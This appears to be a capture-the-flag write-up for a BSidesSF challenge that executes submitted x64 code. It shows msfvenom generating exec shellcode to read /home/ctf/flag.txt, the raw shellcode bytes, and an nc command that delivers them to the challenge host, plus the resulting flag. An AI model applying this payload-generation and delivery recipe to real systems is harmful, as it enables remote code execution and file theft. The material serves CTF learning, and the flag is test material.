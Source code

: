 
description:

You send x64 code, we run it! Try:

```
echo -ne '\xe8\x0d\x00\x00\x00\x48\x65\x6c\x6c\x6f\x20\x77\x6f\x72\x6c\x64\x0a\x00\x5e\x48\x31\xc0\x48\xff\xc0\x48\x31\xff\x48\xff\xc6\x48\x31\xd2\xb2\x0c\x0f\x05\x48\x31\xc0\xb0\x3c\x48\x31\xff\x0f\x05' | nc -v runme-bc63cb99.challenges.bsidessf.net 1337

nc -v runme-bc63cb99.challenges.bsidessf.net 1337
```

(flag path: /home/ctf/flag.txt)

howto:

using ```msfvenom``` to generate a shellcode to execute cat command with the path to the flag:

```
$ docker run --rm -it metasploitframework/metasploit-framework ./msfvenom -a x64 --payload linux/x64/exec --platform linux CMD="cat /home/ctf/flag.txt" -f c
No encoder specified, outputting raw payload
Payload size: 62 bytes
Final size of c file: 287 bytes
unsigned char buf[] =
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53"
"\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x17\x00"
"\x00\x00\x63\x61\x74\x20\x2f\x68\x6f\x6d\x65\x2f\x63\x74\x66"
"\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x00\x56\x57\x48\x89\xe6"
"\x0f\x05";
```
echo the shellcode using guidelines from the challenge description:
```
$ echo -ne '\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x17\x00\x00\x00\x63\x61\x74\x20\x2f\x68\x6f\x6d\x65\x2f\x63\x74\x66\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x00\x56\x57\x48\x89\xe6\x0f\x05' | nc -v runme-bc63cb99.challenges.bsidessf.net 1337
Connection to runme-bc63cb99.challenges.bsidessf.net port 1337 [tcp/menandmice-dns] succeeded!
Send me x64!!
CTF{welcome_to_shellcode}
```
